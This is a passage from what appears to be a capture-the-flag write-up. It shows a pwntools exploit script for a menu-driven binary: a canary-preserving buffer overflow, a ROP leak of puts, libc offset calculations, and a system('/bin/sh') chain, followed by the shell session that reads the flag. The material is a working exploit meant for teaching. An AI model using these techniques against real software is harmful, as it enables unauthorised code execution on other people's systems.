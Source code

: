 ```
print target.recvuntil(">>")

#Send the payload, which will allow us to leak the puts address
leak_payload = "0"*0xa8 + p64(canary) + "1"*8 + p64(gadget) + p64(puts_got) + p64(puts_plt) + p64(main)
target.sendline(leak_payload)
print target.recvuntil(">>")

#Se;ect the option to exit the loop, then scan in the address
target.sendline('3')
print target.recvuntil("[*]BYE ~ TIME TO MINE MIENRALS...\n")
puts_leak = target.recvline()
puts_leak = u64(puts_leak[0:6] + (8 - len(puts_leak[0:6]))*"\x00")
log.info("puts_leak: " + hex(puts_leak))

#Calculate the address of system and /bin/sh
system = puts_leak - 0x2b280
binsh = puts_leak + 0x11a320
log.info("system: " + hex(system))
log.info("binsh:  " + hex(binsh))

#Specify that the menu option to scan in data into memory
print target.recvuntil(">>")
target.sendline('1')
print target.recvuntil(">>")

#Send the payload, which will pop a shell for us
leak_payload = "0"*0xa8 + p64(canary) + "1"*8 + p64(gadget) + p64(binsh) + p64(system) 
target.sendline(leak_payload)
print target.recvuntil(">>")

#Send the menu option to return, and execute out payload
target.sendline("3")

#drop to an interactive shell
log.info("Enjoy your shell XD")
target.interactive()
```

when we run it:

```
$	python exploit.py
``` 

...

```
[*] Enjoy your shell XD
[*] Switching to interactive mode
[*]BYE ~ TIME TO MINE MIENRALS...
$ w
 01:28:42 up  1:56,  1 user,  load average: 1.04, 0.82, 0.75
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               23:33    1:56m  3:57   0.03s /bin/sh /usr/lib/gnome-session/run-systemd-session ubuntu-session.target
$ ls
core        leak0.py  peda-session-dash.txt     Readme.md
exploit.py  leak1.py  peda-session-svc.txt     svc
flag        leak2.py  peda-session-w.procps.txt
$ cat flag
flag{sCv_0n1y_C0st_50_M!n3ra1_tr3at_h!m_we11}
```

Just like that, we captured the flag!
